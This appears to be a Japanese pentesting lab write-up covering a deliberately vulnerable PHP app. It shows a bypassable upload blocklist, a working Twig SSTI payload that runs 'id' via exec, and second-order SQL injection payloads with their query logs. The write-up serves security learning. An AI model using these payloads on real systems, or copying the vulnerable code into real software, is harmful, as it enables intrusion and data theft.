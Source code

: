 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [trouble1](#trouble1)
  - [file upload](#file-upload)
  - [SSTI](#ssti)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# trouble1
https://github.com/TROUBLE-1/White-box-pentesting  

## file upload
以下の`admin/upload.php`でfile uploadの脆弱性がある。  
```php
<html>
<body>

<?php

    if(isset($_REQUEST['upload'])){

	if($_FILES["file"]["error"])
	{
		header("Location: welcome.php");
		die();	
	}

	$notAllowed = array('php','php1','php2','php3','php4','php5','php6','php7','phtml','exe','html','cgi','asp','gif','jpeg','png','vb','inf');

	$splitFileName = explode(".", $_FILES["file"]["name"]);

	$fileExtension = end($splitFileName);

	if(in_array($fileExtension, $notAllowed))
	{
		echo "Please upload a TEXT file";
	}
	else{

		echo "Name: ".$_FILES["file"]["name"];
		echo "<br>Size: ".$_FILES["file"]["size"];
		echo "<br>Temp File: ".$_FILES["file"]["tmp_name"];
		echo "<br>Type: ".$_FILES["file"]["type"];

		move_uploaded_file($_FILES["file"]["tmp_name"], "uploads/".$_FILES["file"]["name"]);
	}
    }

?>

</body>
</html>

```
![image](https://user-images.githubusercontent.com/56021519/112270980-b21ec280-8cbd-11eb-8d31-6188d7853b63.png)  
![image](https://user-images.githubusercontent.com/56021519/112271023-be0a8480-8cbd-11eb-9ade-8ce79aa8dedf.png)  


## SSTI
`render`で検索すると以下のようにtwigが使用されているのでSSTIの可能性  
![image](https://user-images.githubusercontent.com/56021519/112273153-5e61a880-8cc0-11eb-8b91-ae44710b4a4c.png)  
なんかコードがミスっててerrorになるので以下のように編集した。  
```php
<?php
   if (isset($_REQUEST['submit'])) {
       $name=$_REQUEST['name'];
       // include and register Twig auto-loader
       include 'twig/twig/lib/Twig/Autoloader.php';
       Twig_Autoloader::register();
       try {
             // specify where to look for templates
                 $loader = new Twig_Loader_String();  
             // initialize Twig environment
                 $twig = new Twig_Environment($loader);
            // set template variables
            // render template
               $result= $twig->render($name);
               echo "<h2 style='color:white;'>You searched for ". @$result ."</h2>";
       } catch (Exception $e) {
             die ('<h2 style="color:white;">Bad Username</h2>' );
           }
   }
   ?>
```
![image](https://user-images.githubusercontent.com/56021519/112273054-425e0700-8cc0-11eb-9d65-b70dc6478770.png)  

以下で成功！  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection  
```txt
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
![image](https://user-images.githubusercontent.com/56021519/112273908-39216a00-8cc1-11eb-9dd6-cb89f5f5c89e.png)  

## SQL Injection
ログを見ると、`BBB'`というユーザー名でRegisterした場合、以下のようにSQLInjectionできることがわかる！  
insertとselectでは違う構文でInjectionする必要があるが、その都度別のユーザー名を作成すれば任意のデータを読みだせる！  
```txt
                    70 Query    INSERT INTO user_log(username, login_date) values ('BBB'', '03/24/2021 04:04:12 am')

                    72 Query    SELECT * FROM user_log WHERE username = 'BBB''
```
`user_log.php`  
`$login_session`に`'`とかがエスケープされてない場合はSQLInjection可能！  
```php
                  if(isset($login_session)) {
               
                       $sql = "SELECT * FROM user_log WHERE username = '$login_session'";   
```
`session.php`  
`$login_session`には`BBB'`が入る！  
登録する前にPHP上では`\'`としてエスケープしていてもDBに登録する際に`'`に戻るので、それを読みだして使うとヤバい。  
```php
<?php
   include('config.php');
   session_start();
   
   $user_check = $_SESSION['login_user'];
   
   $ses_sql = mysqli_query($db,"select username from users where username = '$user_check' ");
   
   $row = mysqli_fetch_array($ses_sql,MYSQLI_ASSOC);
   
   $login_session = $row['username'];

    if(!isset($login_session)){
        header("location: index.php");
    }
?>
```
以下のように二つのユーザー名で作成するとデータを読みだせる。  
べつにinsertの方はやらなくてもよさそう。  
```txt
',version())#
                    81 Query    INSERT INTO user_log(username, login_date) values ('',version())#', '03/24/2021 04:15:11 am')
                    83 Query    SELECT * FROM user_log WHERE username = '',version())#'


' union select 1,2,3#
                    90 Query    INSERT INTO user_log(username, login_date) values ('' union select 1,2,3#', '03/24/2021 04:18:19 am')
                    92 Query    SELECT * FROM user_log WHERE username = '' union select 1,2,3#'
```
![image](https://user-images.githubusercontent.com/56021519/112277693-58ba9180-8cc5-11eb-8050-3ecbb620046d.png)  


